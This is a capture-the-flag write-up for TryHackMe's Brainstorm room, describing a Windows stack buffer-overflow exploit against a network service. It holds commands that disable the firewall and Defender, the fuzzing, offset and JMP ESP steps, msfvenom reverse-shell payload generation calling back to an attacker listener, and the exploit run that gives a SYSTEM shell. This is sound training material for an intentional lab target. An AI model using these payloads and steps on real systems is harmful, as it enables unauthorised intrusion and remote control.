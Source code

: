 # TryHackMe - Brainstorm

Writeup for the [Brainstorm](https://tryhackme.com/room/brainstorm) room in [TryHackMe](https://tryhackme.com/).

## Setup

Attacker: 
* Kali Linux - IPs: 10.2.31.1, 10.9.0.117
* Windows 10 VM - IP: 10.2.31.155

Target: 
* Windows, IP 10.10.144.220

## Exploitation steps

1. [Target enumeration](#target-enumeration)
1. [Binary exploration](#binary-exploration)
1. [Buffer overflow exploit](#buffer-overflow-exploit)

## Target enumeration

After starting the machine, I began an nmap enumeration:
```
nmap -n -Pn -p- 10.10.144.220
```

The target had some interesting open ports.

Whenever I find FTP or SMB ports I already start some manual exploration while at the same time executing other enumeration tools (enum4linux, nmap --scrip, etc).

Trying to connect to the FTP port (21) anonymously was a success:
```
ftp 10.10.144.220 21
```

Two interesting files were found in a directory and downloaded:
```
mget *
```
![mget](imgs/mget.png)

These files seemed like they were key to this challenge and I decided to test them in a Windows enviroment. 

I configured a temporary Windows 10 Virtual Machine and installed the following tools:

* Immunity Debugger: https://www.immunityinc.com/products/debugger/
  * Download and follow the default install
* mona.py: https://github.com/corelan/mona
  * Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

I disabled Windows firewall and antivirus so as not to have any problems during the tests:
```
netsh advfirewall set allprofiles state off
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

With the Windows VM setup, it was time to test the binary.

## Binary exploration 

First thing I did was simply to run the application and see what it did.

With the application running, I verified if it had any open ports:
```
tasklist /v | findstr FILENAME.exe
```

```
netstat -ano | findstr 524
```


Nice! The opened port is one of the ports found during the target enumeration. The target is probably running this application.

We can interact both with the target and the Windows VM to find out if they are indeed running the same application:

* Windows VM
```
nc -nv 10.2.31.155 9999
```


* Target
```
nc -nv 10.10.144.220 9999
```


They are probably the same! Now it was time to test for some buffer overflow vulnerabilites.

During my studies I created a somewhat generic Python script to ease this type of test:
* ig-buffer-overflow.py: https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow

I used the script in all following steps. Please feel free to reuse it and contribute to it.

First thing was to open the application in the debugger and send some random bytes to it (I sent 10000). In this case I tried to crash the application after the 'user' input, while it was waiting for the write content.
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=9999 --buffsize=10000 --buffhead='' --interact=";;user"
```

Nice! The application crashed. Analysing the debugger we can see that we could overwrite the EIP and that the ESP pointed to some of the content that we sent:



Verifying our memory disposition (right-click on 'ESP' → Follow in Dump), we could see that the application broke at aproximaly 4096 bytes (1000h):



Now it was time to try to find out where in our sent content was the EIP, or, as also known, find out what was the EIP offset. 

I restarted the application on the debugger and sent a cyclic string from my Kali Linux:
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user"
```


The application crashed with EIP = 31704330

Using the same script, I could now find where in the string I could set the EIP:
```
./ig-buffer-overflow.py -m checkoffset --value 31704330 --length=4096
Offset for length 4096: 2012
```

I now had to find the address of an instruction that could jump to the ESP. I used mona.py:
```
!mona jmp -n -r ESP
```


I used the first found address (0x625014df)

Before sending a test shell code, I tested the application for bad chars (I already removed the null byte '00' since this usually crashs memory):
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --badchar=after --exclude=00
```

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 012DEEA8
```


Only '00' was found out as a badchar (since I didn't send it). I could finally test the execution of some shell code.

I generated the payload using msfvenon:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=80 -f hex EXITFUNC=thread -o reverse280
```

I set up a listener on my Kali Linux:
```
sudo rlwrap -a nc -lvnp 80
```

And sent the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse280 --nops=12
```



Success! Got the shell. But on my Windows VM.


## Buffer overflow exploit

I now only had to adapt the exploit so that it could run on the target machine.

I regenerated the shell code:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.9.0.117 LPORT=80 -f hex EXITFUNC=thread -o reverse980
```

Set up a listener:
```
sudo rlwrap -a nc -lvnp 80
```

Executed the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.10.144.220 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse980 --nops=12
```

Bingo! Got a privileged user shell (nt authority\system)!

I searched for the file using the following Windows commands and completed the challenge!
```
cd C:\
dir /b/s *root.txt
type "C:\FINDTHEPATH\root.txt"
```

THE END!

---

*Note: I did try to crash the application at the 'user' parameter, but for some reason could not do it. I saw that I could overwrite the EIP in this case, so I'll probably retry this latter.*
